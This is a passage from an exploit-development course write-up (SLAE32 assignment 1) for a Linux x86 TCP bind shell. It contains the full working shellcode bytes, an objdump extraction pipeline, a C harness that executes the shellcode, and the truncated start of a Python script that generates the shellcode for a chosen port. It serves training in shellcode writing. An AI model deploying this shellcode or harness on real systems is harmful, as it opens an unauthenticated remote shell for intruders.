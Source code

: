 **Source Code**<br/>
You can grab the source code for both the C and assembly programs from the following location:<br/>
[https://github.com/tdmathison/SLAE32/tree/master/assignment1](https://github.com/tdmathison/SLAE32/tree/master/assignment1)

**We can extract the bytes with objdump**
```
[sengen@manjaro-x86 assignment1]$ objdump -d ./bind_shell_asm|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x5b\x43\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x57\x89\xe1\xcd\x80\x31\xc9\x89\xc3\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80"
```

**Add it to a test C program**
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x5b\x43\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x57\x89\xe1\xcd\x80\x31\xc9\x89\xc3\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
```

**Start bindshell**<br/>
<img src="{{ site.url }}/assets/img/slae32/01-04.png"/>

**Connect to it with netcat**<br/>
<img src="{{ site.url }}/assets/img/slae32/01-05.png"/>

## Phase 4: Write a wrapper python script
Finally, to make it a little bit more configurable I wrote a python script that would allow you to specify a port for the shellcode.  The emmitted shellcode from the script will be properly updated for the port specified.

```python
# !/usr/bin/python
from optparse import OptionParser

def convert_to_hex(port):
    val = hex(port)[2::]
    if not len(val) % 2 == 0:
        val = "0" + val
    return ''.join('\\x' + val[i:i + 2] for i in range(0, len(val), 2))

parser = OptionParser()
parser.description = "Generates TCP Bind Shell shellcode."
parser.add_option("-p", "--port", dest="port", help="Port to bind to", type=int)

(options, args) = parser.parse_args()
```